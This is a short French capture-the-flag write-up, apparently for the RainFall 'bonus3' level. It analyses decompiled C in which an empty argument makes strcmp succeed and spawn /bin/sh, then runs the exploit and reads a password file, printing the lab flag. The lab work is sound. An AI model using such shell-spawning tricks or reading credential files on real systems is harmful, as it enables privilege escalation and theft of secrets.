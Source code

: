 # Analyse du code

```c
    iVar2 = atoi(argv[1]);
    local_98[iVar2] = '\0';
    iVar2 = strcmp(local_98,argv[1]);
	if (iVar2 == 0) {
      execl("/bin/sh","sh",0);
    }
```
Avec le code ci dessus, nous voyons que pour executer le bash il faut ivar2 == 0 et donc local98 == argv[1]. En mettant argv[1] == "".
Le resultat d'atoi est 0, ce qui fait que local_98[0] == '\0'.
le strcmp va donc comparer un NULL avec un NULL 

# Exploit

bonus3@RainFall:~$ ./bonus3 ""
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c